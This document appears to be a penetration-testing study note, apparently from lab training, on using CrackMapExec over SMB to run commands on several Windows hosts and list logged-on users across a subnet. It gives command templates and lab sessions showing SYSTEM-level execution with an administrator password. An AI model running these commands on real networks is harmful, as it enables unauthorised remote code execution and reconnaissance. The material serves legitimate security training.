 
#### CrackMapExec (CME)
- Advantage can run a command on multiple hosts at a time
- need username, password, IP
- `-u` username
- `-p` password
- `-x` run `cmd` commands
- `-X` run `powershell` commands
- If `--exec-method` is not defined  the atexec method will be tried, if it fails  specify the `--exec-method` smbexec
  
```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %>  -x 'whoami' --exec-method smbexec -u <username> -p '<password>'
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] .\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Executed command via smbexec
SMB         10.10.110.17 445    WIN7BOX  nt authority\system
```

### Enumerating Logged-on Users
- If in a network with multiple machines that share the same local administrator account can use `CrackMapExec` to enumerate logged-on users on all machines within the same network

```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %>/24  --loggedon-users  -u <username> -p '<password>' 
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```
